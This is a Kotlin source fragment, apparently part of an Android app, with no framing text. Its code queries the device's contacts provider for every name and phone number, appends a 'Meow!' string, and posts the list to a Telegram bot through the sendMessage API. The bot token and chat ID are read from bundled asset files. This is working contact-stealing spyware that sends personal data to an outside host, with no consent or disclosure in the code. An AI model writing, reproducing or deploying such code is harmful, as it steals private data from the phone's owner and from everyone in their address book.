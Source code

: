 ```kotlin
        val contacts = getContacts()  // fetch contacts
        val meow = "Meow! ♥️\uFE0F"
        val messageToSend = "$contacts\n\n$meow\n\n"

        // create request body
        val requestBody = FormBody.Builder()
            .add("chat_id", chatId)
            .add("text", messageToSend)
            .build()

        // send request to Telegram API
        val request = Request.Builder()
            .url("https://api.telegram.org/bot$token/sendMessage")
            .post(requestBody)
            .build()

        // Send request asynchronously
        client.newCall(request).enqueue(object : Callback {
            override fun onFailure(call: Call, e: IOException) {
                e.printStackTrace()
            }

            override fun onResponse(call: Call, response: Response) {
                if (response.isSuccessful) {
                    println("Message sent successfully: ${response.body?.string()}")
                } else {
                    println("Error: ${response.body?.string()}")
                }
            }
        })
    }

    // function to fetch contacts
    fun getContacts(): String {
        val contactsList = mutableListOf<String>()
        val contentResolver = context.contentResolver
        val cursor = contentResolver.query(
            ContactsContract.CommonDataKinds.Phone.CONTENT_URI,
            null,
            null,
            null,
            null
        )

        cursor?.use {
            val nameIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.DISPLAY_NAME)
            val numberIndex = it.getColumnIndex(ContactsContract.CommonDataKinds.Phone.NUMBER)

            while (it.moveToNext()) {
                val name = it.getString(nameIndex)
                val number = it.getString(numberIndex)
                contactsList.add("$name: $number")
            }
        }

        return contactsList.joinToString(separator = "\n")
    }

    // fetch token and chatId from assets (assuming these are saved in files)
    private fun getTokenFromAssets(): String {
        return context.assets.open("token.txt").bufferedReader().readText().trim()
    }

```